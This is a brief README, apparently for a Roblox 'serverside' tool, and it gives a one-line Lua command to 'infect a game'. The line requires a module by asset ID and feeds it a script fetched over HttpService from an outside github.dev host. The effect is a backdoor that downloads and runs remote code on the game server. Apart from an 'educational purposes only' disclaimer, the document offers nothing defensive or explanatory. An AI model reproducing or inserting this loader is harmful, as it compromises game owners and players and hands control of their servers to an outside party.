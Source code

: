 # rbx-serverside
[roblox serverside](https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/)


to infect a game put: 
  ```lua
    require(108059886578663)(game:GetService("HttpService"):GetAsync("https://lonely-werewolf-q7g5wgwg9xgxcx6jw-3000.app.github.dev/script"))
  ```
educational purposes only
